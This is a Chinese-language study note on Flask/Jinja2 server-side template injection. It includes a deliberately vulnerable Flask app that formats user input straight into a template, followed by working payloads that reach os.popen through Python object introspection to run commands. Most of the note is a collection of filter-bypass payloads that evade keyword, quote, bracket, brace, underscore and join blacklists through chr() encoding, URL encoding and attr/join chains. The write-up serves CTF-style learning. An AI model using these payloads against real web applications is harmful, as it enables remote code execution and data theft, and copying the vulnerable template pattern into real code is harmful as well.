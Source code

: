 # ssti

### 0x00前置知识
模块是一个包含响应文本的文件，其中包含占用位变量表示的动态部分，其具体值只在请求的上下文中才知道。使用真实值替换变量，再返回最终得到的响应字符串，这一过程称为渲染。为了渲染模块，Flask使用一个名为Jinja2的强大模板引擎。
__1. 变量__
```python
from flask import Flask
from flask import request
from flask import config
from flask import render_template_string
app = Flask(__name__)

@app.route('/')
def index():
    name = "rry"
    temlate = '''
        <h1>hello,{{name}}</h1>
    '''
    return render_template_string(temlate,name=name)
    
if __name__ == '__main__':
    app.debug = True
    app.run()
```
__2. if条件__
```python
@app.route('/')
def index():
    name = "rry"
    temlate = '''
    {% if name=='who' %}
        <h1>hello,{{name}}</h1>
    {% else %}
        <h1>what's your name</h1>
    {% endif %}
    '''
    return render_template_string(temlate,name=name)
```
3. for循环和宏定义类似，这里就不举例了。
4. 如果需要用到占位符，`{% %}`换成`{%% %%}`


5. 
   |        |       |
   |----    | ----  |
   | 单元格  | 单元格 |
   | 单元格  | 单元格 |
   

### 0x01实现原理
```python
from flask import Flask
from flask import request
from flask import config
from flask import render_template_string
app = Flask(__name__)

app.config['SECRET_KEY'] = "flag{SSTI_123456}"
@app.route('/')
def index():
    template = '''
        {%% block body %%}
        hello,%s
        {%% endblock %%}
    '''  % (request.args.get('name'))
    return render_template_string(template), 200

if __name__ == '__main__':
    app.run(host='0.0.0.0',debug=True)
```
__1. python内置了许多方法如__
	- `__class__`返回对象所属的类。
	- `__bases__`以元组的形式返回一个类所直接继承的类。
	- `__base__`以字符串返回一个类所直接继承的类。
	- `__mro__`返回解析方法调用的顺序。
	- `__subclasses__()`获取类的所有子类。
	- `__init__`所有自带带类都包含init方法，便于利用他当跳板来调用globals。
	- `__globals__`通过`function.__globals__`，用于获取函数所处空间下可使用的module、方法以及所有变量。
	- `__getattribute__` 使用实例访问属性时,调用该方法
	- `__dict__` 查看方法
__2. 通过模板渲染和自带方法我们可以实现任意命令执行__
	- 首先通过'`"".__class__`获得str类
	- 再用`"".__class__.__bases__`或者`"".__class__.__mro__[1]`获得基类
	- `.__subclasses__()`可以获取所有子类
	- 再使用`.__init__.__globals__[]`找到包含os模块的子类
	- 最终payload`?name={{''.__class__.__mro__[1].__subclasses__()[299].__init__.__globals__["os"]["popen"]("whoami").read()}}`

```python
# python3
# 一个常见的poc
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
    	{% for b in c.__init__.__globals__.values() %}
			{% if b.__class__ == {}.__class__ %}
      			{% if 'eval' in b.keys() %}
					{{b['eval']('__import__("os").popen("dir").read()')}}
     			{% endif %}
    		{% endif %}
		{% endfor %}
	{% endif %}
{% endfor %}
```
其他的的利用先贴一张图（好眼熟hhhh）
![img](https://s1.ax1x.com/2020/05/19/Y5LJMj.png)
这里warnings其实是个module，如果报错`jinja2.exceptions.UndefinedError: 'warnings' is undefined`是因为没有导入warnings模块，但是导入后其实同样不能用，原因可以能是jinja2的渲染过滤掉了warnings，不让用了吧
只有在本地是可以这样用的
![dGML3n.png](https://s1.ax1x.com/2020/08/20/dGML3n.png)
但是不同环境，下标不同，这个方法在py3.8是不是就不能用了呢。。。

### 0x02绕过检测
1. __关键字过滤__
	- 字符串拼接`{{""["__cla"+"ss__"]}}`
   
	- 字符串拼接`{{"".__getattribute__("__cla"+"ss__")}}`(python3好像不能字符串拼接了，只能用这个函数传一个字符串过去....)
   
	- format替换`{{fl{0}g.format('a')}}`
   
	- doc方法，返回类或函数的介绍`{{''.__class__.__doc__[1]}}`
   
     ![dyp7lj.png](https://s1.ax1x.com/2020/08/24/dyp7lj.png)
   
	- replace和join过滤器`{{'aay'|replace('a','r')}}`	`{{'rr''y'|join}}`
   
	- python2的一种方法(pyhon3的字符串没有decode方法)`{{'X19jbGFzc19f'.decode('base64')}}`
   

__2. 引号过滤__
   首先我们从引号的作用出发，第一个引号是为了用字符串来引出基类object，而任何数据结构都可以引出基类，比如0，[]，{}，后面的引号是用来获得键值，我们可以利用request.args或者request.values绕过，request.args是flask用来存储请求参数的一个字典。
   ![dy9pp4.png](https://s1.ax1x.com/2020/08/24/dy9pp4.png)

```python
http://127.0.0.1:5000/?name={{''.__class__.__mro__[1].__subclasses__()[299].__init__.__globals__[request.args.a][request.args.b](request.args.c).read()}}&a=os&b=popen&c=whoami
```
   还可以利用chr()和set来绕过，首先fuzz一下找到chr()
```python
{{().__class__.__bases__[0].__subclasses__()[299].__init__.__globals__.__builtins__.chr}}
```
   ![dyezlV.png](https://s1.ax1x.com/2020/08/24/dyezlV.png)

```python
{%set chr=[].__class__.__bases__[0].__subclasses__()[299].__init__.__globals__.__builtins__.chr%}{{[].__class__.__mro__[1].__subclasses__()[299].__init__.__globals__[chr(111)+chr(115)][chr(112)+chr(111)+chr(112)+chr(101)+chr(110)](chr(119)+chr(104)+chr(111)+chr(97)+chr(109)+chr(105)).read()}}
```
   这里加号一定要用url编码成%2B防止被解码成空格，然而像下面这样全部url编码也是可以的。
```python
%7b%25%73%65%74%20%63%68%72%3d%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%62%61%73%65%73%5f%5f%5b%30%5d%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%5b%32%39%39%5d%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%2e%5f%5f%62%75%69%6c%74%69%6e%73%5f%5f%2e%63%68%72%25%7d%7b%7b%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%6d%72%6f%5f%5f%5b%31%5d%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%5b%32%39%39%5d%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%5b%63%68%72%28%31%31%31%29%2b%63%68%72%28%31%31%35%29%5d%5b%63%68%72%28%31%31%32%29%2b%63%68%72%28%31%31%31%29%2b%63%68%72%28%31%31%32%29%2b%63%68%72%28%31%30%31%29%2b%63%68%72%28%31%31%30%29%5d%28%63%68%72%28%31%31%39%29%2b%63%68%72%28%31%30%34%29%2b%63%68%72%28%31%31%31%29%2b%63%68%72%28%39%37%29%2b%63%68%72%28%31%30%39%29%2b%63%68%72%28%31%30%35%29%29%2e%72%65%61%64%28%29%7d%7d
```

__3. 中括号过滤__
   点号代替中括号的作用
```
{{''.__class__.__mro__.1.__subclasses__().299.__init__.__globals__.os.popen('whoami').read()}}
```
   利用`__getitem__();a[2] == a.__getitem__(2)`
   利用join进行绕过`{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_`

__4. 双大括号过滤__
   利用jinja2的条件和循环语法
```python
{% for i in list %}
	{% if 1==1 %}
	{% endif %}
{% endfor %}
# 可以使用上面贴的常用poc
```
__5. 阉割过滤__
   builtins是python的内建模块，所谓内建模块就是你在使用时不需要import，python启动后，在没有执行程序员编写的任何代码前，python会加载内建模块中的函数到内存中。比如经常使用的abs(),str(),type()等。而在python2.x中这个模块叫做builtins.如果你需要向内建模块中添加自己的函数，则必须import builtins(在main模块中可以直接通过builtins添加函数，不需要import builtins)
   python2中可以通过重新载入builtins来恢复被删除掉的方法。python3中已经不能直接使用reload函数，需要导入imp库

```
reload(__builtins__)
```
   ![dfe7PU.png](https://s1.ax1x.com/2020/08/26/dfe7PU.png)
__6. 下划线过滤__
   request.args绕过
   {{""["\x5f\x5fclass\x5f\x5f"]}}有的时候python并不支持这种写法，"\x5f"是字符 ”_“，”\x2E"是字符 "."
   { { request.headers['X-Forwarded-For']} } ，没有尝试。
   Jinja有类似Linux管道机制的语法，即'|'符号。利用此语法加上attr()方法，就可以达到在方括号中书写属性名称一样的效果.。
```python
{{[]|attr('__class__')}}
{{[].__class__}}
# 两者是相当的
```
由此我们可以逐步将payload转换成不带下划线的格式
```python
# 1.0
{{''.__class__.__base__.__subclasses__()[299].__init__.__globals__["os"]["popen"]("whoami").read()}}
# 2.0
# {{''|attr('__class__')|attr('__base__')|attr('__subclasses__')()[299]}}拼接到这里的时候出现语法错误，但是按照下面当做二维列表就可以取到想要的类了(神奇*1...)。
{{[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]}}
# 3.0继续拼接，只要用到中括号取值就要搞成二维列表取0
{{[[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]|attr('__init__')|attr('__globals__')][0]['os']}}
# 4.0但是接下来取popen就不用二维列表...当然用上了不会出错(神奇*2...)
{{[[[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]|attr('__init__')|attr('__globals__')][0]['os']][0]['popen']}}
# 5.0继续加上剩下的
{{[[[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]|attr('__init__')|attr('__globals__')][0]['os']][0]['popen']('whoami')|attr('read')()}}
# 6.0再利用join特性将_分离([1,2,3]|join 结果为123)
{{[[[''|attr(['_'*2,'class','_'*2]|join)|attr(['_'*2,'base','_'*2]|join)|attr(['_'*2,'subclasses','_'*2]|join)()][0][299]|attr(['_'*2,'init','_'*2]|join)|attr(['_'*2,'globals','_'*2]|join)][0]['os']][0]['popen']('whoami')|attr('read')()}}
# 7.0最后_替换[[]|map|string|list][0][20]，得到最终payload
{{[[[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'base',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][299]|attr([[[]|map|string|list][0][20]*2,'init',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'globals',[[]|map|string|list][0][20]*2]|join)][0]['os']][0]['popen']('whoami')|attr('read')()}}
```
__7. 点号过滤__
   attr的使用，同上
__8. |join过滤__
   `blacklist = ["__","request[request.","__class__",'[',']',"|join"]`
   使用管道+format方法，用格式化字符串生成被过滤的字串。
```python
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```   

> 参考文章
> https://xz.aliyun.com/t/6885
>
> https://xz.aliyun.com/t/3679
>
> https://blog.csdn.net/slamx/article/details/49286863
>
> https://www.cnblogs.com/caicairui/p/7778410.html?utm_medium=referral
>
>https://diego-x.github.io/2020/05/20/Flask-ssti%E7%BB%95%E8%BF%87/
>
>https://www.cnblogs.com/Mrfanl/p/10198174.html
>
>https://www.jianshu.com/p/a736e39c3510
